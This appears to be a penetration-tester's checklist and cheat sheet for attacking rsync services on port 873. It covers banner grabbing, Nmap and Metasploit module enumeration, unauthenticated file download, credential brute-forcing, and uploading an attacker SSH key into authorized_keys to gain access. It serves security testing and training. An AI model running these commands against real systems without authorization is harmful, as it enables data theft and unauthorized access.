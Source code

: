 # RPC / Rsync Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Rsync (port 873), I realistically expect to find:

- [ ] List of available modules (directories) exposed by the server
- [ ] Ability to list files within exposed modules without authentication
- [ ] Ability to download sensitive files or backups as an unauthenticated user
- [ ] Authentication prompts indicating protected modules
- [ ] Valid username/password combinations via brute-force or guessing
- [ ] Ability to upload files (e.g., SSH keys) to writable modules
- [ ] Potential for lateral movement by gaining access to other services using retrieved credentials or uploaded keys

---

## ✅ RPC / Rsync Pentest Checklist

- [ ] **Check the Banner**
    ```bash
    nc -vn <IP> 873
    ```

- [ ] **Nmap Scan**
    ```bash
    sudo nmap -sV --script "rsync-list-modules" -p 873 <IP>
    ```

- [ ] **Metasploit Scan**
    ```bash
    msfconsole
    use auxiliary/scanner/rsync/modules_list
    run
    ```

- [ ] **Check If You Can List or Sync as Unauthenticated User**
    ```bash
    rsync -av --list-only rsync://<IP>/<MODULE>
    rsync -av rsync://<IP>/<MODULE> ./local_folder/
    ```

- [ ] **Check If You Can List or Sync as Authenticated User**
    ```bash
    rsync -av --list-only rsync://<USER>@<IP>/<MODULE>
    rsync -av rsync://<USER>@<IP>:8730/<MODULE> ./local_folder/
    ```

- [ ] **Try Uploading Files (e.g., SSH Keys)**
    ```bash
    mkdir .ssh
    ssh-keygen -f .ssh/attack-key -t ecdsa -b 521
    cp .ssh/attack-key.pub .ssh/authorized_keys
    rsync -av .ssh/ rsync://<USER>@<IP>/<MODULE>/.ssh
    ```

- [ ] **Brute Force Authentication**
    ```bash
    nmap -sV --script rsync-brute --script-args userdb=/path/to/usernames.txt,passdb=/path/to/passwords.txt -p 873 <IP>
    ```

---

## ✅ Rsync Useful Commands

- **Banner Grabbing**
    ```bash
    nc -vn <IP> 873
    ```

- **Nmap Scanning**
    ```bash
    sudo nmap -sV --script "rsync-list-modules" -p 873 <IP>
    nmap -sV --script rsync-brute --script-args userdb=/path/to/usernames.txt,passdb=/path/to/passwords.txt -p 873 <IP>
    ```

- **Metasploit Module**
    ```bash
    use auxiliary/scanner/rsync/modules_list
    run
    ```

- **Unauthenticated Rsync Usage**
    ```bash
    rsync -av --list-only rsync://<IP>/<MODULE>
    rsync -av rsync://<IP>/<MODULE> ./local_folder/
    ```

- **Authenticated Rsync Usage**
    ```bash
    rsync -av --list-only rsync://<USER>@<IP>/<MODULE>
    rsync -av rsync://<USER>@<IP>:8730/<MODULE> ./local_folder/
    ```

- **Uploading SSH Keys via Rsync**
    ```bash
    mkdir .ssh
    ssh-keygen -f .ssh/attack-key -t ecdsa -b 521
    cp .ssh/attack-key.pub .ssh/authorized_keys
    rsync -av .ssh/ rsync://<USER>@<IP>/<MODULE>/.ssh
    ```
